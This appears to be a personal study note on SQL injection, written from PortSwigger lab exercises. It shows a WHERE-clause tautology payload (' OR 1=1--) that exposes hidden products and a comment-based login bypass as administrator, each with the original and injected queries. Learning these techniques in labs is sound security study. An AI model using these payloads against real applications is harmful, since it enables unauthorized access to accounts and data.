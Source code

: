 # SQL Injections

## Where clause allowing retrieval of data

A SQL injection may start with ' or at least in the burp suite labs the single quote is required.

The where statement is executed succesfully, after injecting the payload the released flag is ignored; this returns all of the products regardless of its' release status.

Code:
<br>`SELECT * FROM products WHERE category = 'Gifts' AND released = 1`<br>
`SELECT * FROM products WHERE category = 'Gifts' OR 1=1--' AND released = 1`

Payload:<br>
`filter?category=Gifts'+OR+1=1--`<br>
'+OR+1=1--

Credit:<br>
[SQL retrieve data](https://portswigger.net/web-security/sql-injection/lab-retrieve-hidden-data)

## Login bypass
Explantation:<br>
This payload is a more simple to understand. The username and password are used as variables in the SQL query. <br>If an application does not validiate/sanitize the input an attacker can inject their own SQL and bypass. We bypass the login by removing the password requirement.<br>

Code:<br>
`SELECT * FROM users WHERE username = 'wiener' AND password = 'bluecheese'`<br>
<br>`SELECT * FROM users WHERE username = 'administrator'--' AND password = ''`<br>
<br>Payload:
<br>`username=administrator%27--&password=hello`<br>
Username field = "adminstrator'--"<br>
<br>Credit:<br>
[SQL Login bypass](https://portswigger.net/web-security/sql-injection/lab-login-bypass)
